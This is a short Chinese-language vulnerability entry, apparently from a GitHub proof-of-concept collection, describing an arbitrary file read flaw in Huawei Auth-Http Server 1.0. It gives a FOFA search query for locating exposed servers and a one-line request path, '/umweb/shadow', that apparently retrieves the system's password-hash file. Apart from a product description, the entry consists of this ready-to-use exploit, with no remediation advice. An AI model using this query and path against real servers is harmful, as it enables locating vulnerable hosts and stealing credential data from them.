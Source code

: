 
## 华为Auth-Http Serve任意文件读取
华为Auth-Http服务,华为Auth-Http Server是一款安全认证服务器，在提供安全的远程登录和网络资源访问控制。支持多种认证方式和协议AAA、Radius、TACACS+等，可以实现用户身份认证、授权和审计等功能。同时，可广泛应用于企业、政府、教育等行业的安全架构中。华为Auth-Http Server 1.0任意文件读取，攻击者可通过该漏洞读取任意文件
## fofa
```
server="Huawei Auth-Http Server 1.0"
```

## POC
```
/umweb/shadow
```

![image](https://github.com/wy876/POC/assets/139549762/6e52e737-0076-4630-9d6f-a9f0a355b549)
